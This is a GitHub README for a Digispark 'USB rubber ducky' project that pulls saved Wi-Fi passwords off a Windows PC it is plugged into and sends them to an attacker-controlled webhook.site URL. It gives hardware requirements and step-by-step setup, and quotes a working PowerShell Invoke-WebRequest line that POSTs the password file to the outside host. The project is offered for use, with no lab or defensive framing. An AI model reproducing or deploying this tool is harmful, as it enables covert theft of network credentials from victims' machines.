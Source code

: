 # wifi-grabber-ducky
USB rubber ducky that grabs saved wifi password from pc and sends into a webhook site. This is highly inspired from Cyber Mentor's [video](https://www.youtube.com/watch?v=uH-4btjE56E&t=248s).

## Requirements
 - [Digispark USB Development Board Attiny85](https://circuit.rocks/products/digispark-usb-development-board-attiny85)
 - [Arduino IDE](https://www.arduino.cc/en/software/)

## Usage
 1. Go to [Webhook Site](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://webhook.site/&ved=2ahUKEwiK_6b4y5GFAxURyzgGHd0CDaAQFnoECAcQAQ&usg=AOvVaw1m2b3mmqgLIDfWa5YwqIcy).
 2. Copy your *unique URL*.
    
    ![image](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/ed3473b1-9af0-492e-96c8-1e8847e36edd)
    
 3. Download *wifi-key-grab.ino* file and edit it using Arduino IDE.
 4. In line 42 or in the line of code below, change the webhook url to your unique URL.
  ```
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/2265df61-338c-470f-a0ec-0f6011dc9a16 -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  ```
 5. Once set, compile your program in Arduino IDE.
 6. Plug in your DigiSpark USB, then upload the program.
 7. Enjoy.

## Demo
![wifi-key-grabber-demo](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/26b95e26-6afd-4644-bdf3-ad73d0abc26b)

## Note:
If ever you're going to use it again, make sure to repeat the steps again, as webhook URLs tend to reset after some time.

